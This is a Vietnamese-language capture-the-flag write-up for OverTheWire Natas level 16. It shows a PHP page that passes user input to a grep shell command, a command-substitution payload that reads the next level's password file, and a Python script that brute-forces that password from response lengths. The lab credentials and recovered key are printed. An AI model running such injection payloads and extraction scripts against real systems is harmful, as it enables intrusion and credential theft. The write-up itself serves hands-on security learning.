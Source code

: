 # Natas Level 16

## 🔑 Mục tiêu
Tìm password cho level tiếp theo.

**URL: http://natas16.natas.labs.overthewire.org**     
**Credential: natas16:*hPkjKYviLQctEW33QmuXL6eDVfMW4sGo***

## 🛠️ Các bước thực hiện
1. Tổng quan trang web:    
![alt text](Image/Natas16-1.png)

2. Source code:    
```PHP
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    if(preg_match('/[;|&`\'"]/',$key)) {
        print "Input contains an illegal character!";
    } else {
        passthru("grep -i \"$key\" dictionary.txt");
    }
}
?>
```

==>Đây là Command injection ở vài level trước đó nhưng đã được filter nhiều kí tự hơn như: ```[]```, ```;```, ```|```, ```&```, **`**, ```\```, ```'```, ```"```.    

==>Hầu hết các kí tự đã bị filter, ta nghĩ đến trường hợp **substitution** để match các kí tự trong password.   

-Khi thử command ```$(grep ^e /etc/natas_webpass/natas17)```:    
![alt text](Image/Natas16-2.png)

==>Lệnh không bị ảnh hưởng.   

-Ta nhận ra rằng trong substitution sẽ không bị filter khi đi qua hàm ```preg_match()```

-Giờ bắt đầu brute-force từng kí tự trong đó với script sau:   
```python
import requests
import string

url = "http://natas16.natas.labs.overthewire.org/"
auth = ("natas16", "hPkjKYviLQctEW33QmuXL6eDVfMW4sGo")

CHAR_SET = string.ascii_letters + string.digits

password = ""

for pos in range(1, 40):
    for char in CHAR_SET:
        payload = f"$(grep ^{password + char} /etc/natas_webpass/natas17)chicken"
        r = requests.get(url, auth=auth, params={"needle": payload})
        if int(len(r.text)) != 1153:
            password += char
            print(f"[+] Found {char} is true charector in {pos} position")
            break
            
        else:
            print(f"[-] {char} isn't true charector in {pos} position")
            
print(password)
```

-Giải thích 1 chút nhé: Nếu mà substitution bên trong kia mà có thể chạy được, ví dụ như tìm được chữ A là kí tự đúng thì hàm ```passthru()``` sẽ thực hiện:   
```bash
grep -i "Achicken" dictionary.txt
```

-Theo í tưởng đó, ta có thể tìm được password nhưng vấn đề là điều kiện để nó là kí tự đúng là gì?    

==>THeo mình suy đoán thì nó sẽ có ```Content-length``` khác so với các request bị sai, vào xem ```Content-length``` của 1 char sai:   
```bash
Content-Length: 1153
```

==>Lấy cái này làm điều kiện :))    

## 📌 Key: ```EqjHJbo7LFNb8vwhHb9s75hokh5TF0OC```